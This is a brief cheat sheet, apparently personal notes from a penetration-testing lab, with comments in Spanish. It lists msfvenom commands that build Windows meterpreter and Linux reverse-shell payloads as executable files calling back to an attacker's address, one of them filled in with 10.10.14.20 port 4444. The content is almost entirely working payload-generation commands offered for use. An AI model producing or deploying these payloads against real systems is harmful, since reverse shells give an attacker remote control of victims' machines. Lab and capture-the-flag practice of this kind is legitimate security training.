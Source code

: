 msfvenom -l payloads

(ejemplo) --> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x LPORT=x -f exe > payload.exe

si es de 32 bits el exploit ya apunta directamente solo hay que especificar si es de 64bits 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=4444 -f exe -o payload.exe


msfvenom -p linux/x86/shell_reverse_tcp LHOST=x LPORT=x -f elf > shell.elf 

